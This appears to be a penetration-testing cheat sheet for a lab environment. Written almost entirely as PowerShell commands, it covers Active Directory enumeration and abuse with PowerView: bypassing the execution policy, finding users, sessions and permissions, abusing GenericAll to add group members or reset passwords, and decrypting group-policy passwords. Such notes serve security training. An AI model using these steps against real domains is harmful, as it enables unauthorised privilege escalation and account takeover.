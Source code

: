 Transfer powerview to target: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\PowerView.ps1
```
# Basic Enumeration
```powershell
Get-NetDomain
```
## Get users on domain
```powershell
Get-NetUser
```
```powershell
Get-NetUser | select cn
```
```powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
### Get specific user details
```powershell
Get-NetUser fred
```
## Get groups on domain
```powershell
Get-NetGroup | select cn
```
### Get specific group members
```powershell
Get-NetGroup "Sales Department" | select member
```
## Enumerate domain-joined machines
```powershell
Get-NetComputer
```
```powershell
Get-NetComputer | select name,dnshostname,operatingsystem,operatingsystemversion
```
## Enumerate User Permissions
Check user to see if they have admin privileges on any domain machines:
```powershell
Find-LocalAdminAccess
```
## Enumerate Logged on Users
This will check a computer to see if there are any users currently logged in. Due to windows changing how to handles sessions, the API's running behind the hood may require admin:
```powershell
Get-NetSession -ComputerName files04 -Verbose
```
Alternatively, use sysinternals tool PsLoggedOn (https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon):
```powershell
.\PsLoggedon.exe \\client74
```
# Enumerate ACE's
Access Control Entries associated with objects defines whether access to the specific object is allowed or denied.
* GenericAll: Full permissions on object
* GenericWrite: Edit certain attributes on the object
* WriteOwner: Change ownership of the object
* WriteDACL: Edit ACE's applied to object
* AllExtendedRights: Change password, reset password, etc.
* ForceChangePassword: Password change for object
* Self (Self-Membership): Add ourselves to for example a group
```powershell
Get-ObjectAcl -Identity stephanie
```
Note the "ObjectSID" and "SecurityIdentifier" of the output then run the following on the SIDs:
```powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
Converting multiple SID's at once:
```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```
This command checks if a group ("Management Department") has any objects with "GenericAll" permissions:
```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration.
## Example misconfig
If the group "Management Department" object has a user "stephanie" configured with GenericAll permissions on that group object, they can be simply run the following command to add stephanie to the group:
```powershell
net group "Management Department" stephanie /add /domain
```
# Enumerating Domain Shares
```powershell
Find-DomainShare
```
If files are shown, they can be viewed:
```powershell
ls "\\dc1.corp.com\sysvol\corp.com\"
```
```powershell
cat "\\dc1.corp.com\sysvol\corp.com\file.txt"
```
Look for domain policy files! They store local admin passwords and can be decrypted:
```powershell
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
# Misc
## Abuse GenericAll to change user password
If a user has GenericAll permissions on another user, their password can be changed.
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
```powershell
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword
```
